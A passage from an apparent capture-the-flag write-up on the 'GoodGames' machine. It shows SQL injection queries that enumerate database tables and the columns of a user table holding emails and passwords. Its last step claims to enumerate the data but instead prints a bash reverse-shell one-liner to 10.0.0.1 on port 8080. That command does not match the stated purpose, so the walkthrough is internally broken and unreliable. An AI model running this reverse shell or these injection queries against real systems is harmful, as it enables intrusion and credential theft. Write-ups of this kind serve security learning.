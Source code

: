 Let’s gather the list of tables of the database using `group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'main'`

<figure><img src="../../.gitbook/assets/goodgames30.png" alt=""><figcaption></figcaption></figure>

The tables are `blog`, `blog_comments` and `user`

Let’s see the columns of `user` table using: `group_concat(column_name) FROM information_schema.columns WHERE table_name = 'user'`

<figure><img src="../../.gitbook/assets/goodgames31.png" alt=""><figcaption></figcaption></figure>

The columns of the user table are called `id`, `email`, `password` and `name`

Let’s enumerate it all using: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

<figure><img src="../../.gitbook/assets/goodgames32.png" alt=""><figcaption></figcaption></figure>
